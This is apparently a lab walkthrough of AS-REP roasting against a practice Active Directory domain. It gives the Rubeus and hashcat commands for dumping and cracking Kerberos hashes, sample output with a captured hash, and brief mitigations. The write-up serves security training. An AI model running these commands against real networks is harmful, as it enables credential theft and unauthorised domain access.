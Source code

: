 During pre-authentication, the users hash will be used to encrypt a timestamp that the domain controller will attempt to decrypt to validate that the right hash is being used and is not replaying a previous request. After validating the timestamp the KDC will then issue a TGT for the user. If pre-authentication is disabled you can request any authentication data for any user and the KDC will return an encrypted TGT that can be cracked offline because the KDC skips the step of validating that the user is really who they say that they are.

![](https://i.imgur.com/arAImcA.png)
Dumping KRBASREP5 Hashes w/ Rubeus -

1.) cd Downloads - navigate to the directory Rubeus is in

2.) Rubeus.exe asreproast - This will run the AS-REP roast command looking for vulnerable users and then dump found vulnerable user hashes.

![](https://i.imgur.com/l3wJhby.png)

Crack those Hashes w/ hashcat - 

1.) Transfer the hash from the target machine over to your attacker machine and put the hash into a txt file

2.) Insert 23$ after $krb5asrep$ so that the first line will be $krb5asrep$23$User.....

Use the same wordlist that you downloaded in task 4

3.) hashcat -m 18200 hash.txt Pass.txt - crack those hashes! Rubeus AS-REP Roasting uses hashcat mode 18200 

![](https://i.imgur.com/eOqGVrm.png)

AS-REP Roasting Mitigations - 

    Have a strong password policy. With a strong password, the hashes will take longer to crack making this attack less effective

    Don't turn off Kerberos Pre-Authentication unless it's necessary there's almost no other way to completely mitigate this attack other than keeping Pre-Authentication on.

```
C:\Users\Administrator\Downloads>Rubeus.exe asreproast

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0


[*] Action: AS-REP roasting

[*] Target Domain          : CONTROLLER.local

[*] Searching path 'LDAP://CONTROLLER-1.CONTROLLER.local/DC=CONTROLLER,DC=local' for AS-REP roastable users
[*] SamAccountName         : Admin2
[*] DistinguishedName      : CN=Admin-2,CN=Users,DC=CONTROLLER,DC=local
[*] Using domain controller: CONTROLLER-1.CONTROLLER.local (fe80::49:32e1:c909:9ad7%5)
[*] Building AS-REQ (w/o preauth) for: 'CONTROLLER.local\Admin2'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$Admin2@CONTROLLER.local:312D3E75042839A3AF33CA7292416983$1139E48EE8EF
      89392F0EEA38BF7B035EAD1C641713E71AA24AD008B117330C81C262FC9AFF21F63BCDD5C7C090F1
      DF3CB014A79EAFFA554811DECEDC5A1AA368C20CBDB469FE6C40A6E63C8ABF93D5AA8678EF367574
```